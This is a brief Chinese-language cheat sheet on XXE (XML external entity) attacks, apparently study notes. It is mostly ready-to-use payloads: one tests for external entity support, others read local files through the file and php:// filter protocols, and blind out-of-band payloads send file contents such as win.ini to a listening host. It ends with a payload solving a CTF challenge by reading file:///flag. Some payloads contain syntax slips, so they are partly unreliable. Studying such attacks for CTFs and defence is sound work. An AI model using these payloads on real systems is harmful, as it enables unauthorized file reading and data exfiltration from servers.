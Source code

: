 ## XXE漏洞发现

### 首先检测是否支持xml解析

### 若可以解析，检测是否支持DTD引用外部实体

```xml
<?xml version='1.0' encoding="UTF-8">
<!DOCTYPE root[
<!ENTITY % remote SYSTEM "http://xxxx/xxetest">
%remote;]>
<root/>
```

****

## 本地文件读取

### 1.有回显XXE

1.file协议

2.php为协议

3.当所读取文件包含`<`,`&`等，用CDATA，利用外部参数实体

***

### 2.无回显XXE

---

通过外部DTD的方式可以将内部参数实体内容与外部DTD声明的实体内容拼接起来  

利用payload来从目标主机读取到文件内容后，将文件内容作为url的一部分来请求  

我们本地监听的端口

```xml
<?xml version="1.0"?>
<!DOCTYPE root SYSTEM "http://localhost/evil1.dtd">
```

evil1.dtd

```xml
<!ENTITY % payload SYSTEM "file:///winixx">
<! ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://localhost:8899/%payload'>">
%int 
%trick
```

***

还有另一种

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % payload SYSTEM "http://localhost/evil2.dtd">
%payload;
%int;
%send;
]>
```

evil2.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///win.ini">
<!ENTITY %int "<!ENTITY &#37; send SYSTEM 'http://localhost/?p=%file;'>">
```

<br/>

## 例：[NCTF2019]Fake XML cookbook

```php
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE root [
  <!ENTITY admin SYSTEM 'file:///flag'>
  ]>
<user><username>&admin;</username><password>123</password></user>  
```